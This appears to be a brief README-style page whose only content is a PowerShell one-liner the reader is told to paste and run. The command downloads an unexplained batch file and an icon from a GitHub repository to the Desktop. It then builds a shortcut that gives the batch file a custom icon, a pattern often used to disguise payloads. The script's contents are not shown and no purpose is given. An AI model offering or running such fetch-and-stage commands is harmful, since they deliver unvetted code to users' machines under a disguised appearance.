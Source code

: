 run this code in powershell to download 


$desktopPath = [System.Environment]::GetFolderPath('Desktop'); Invoke-WebRequest -Uri "https://github.com/danygk/sv/raw/main/x.bat" -OutFile "$desktopPath\x.bat"; Invoke-WebRequest -Uri "https://github.com/danygk/sv/raw/main/v.ico" -OutFile "$desktopPath\v.ico"; $ws = New-Object -ComObject WScript.Shell; $shortcut = $ws.CreateShortcut("$desktopPath\x.bat - Shortcut.lnk"); $shortcut.TargetPath = "$desktopPath\x.bat"; $shortcut.IconLocation = "$desktopPath\v.ico"; $shortcut.Save()
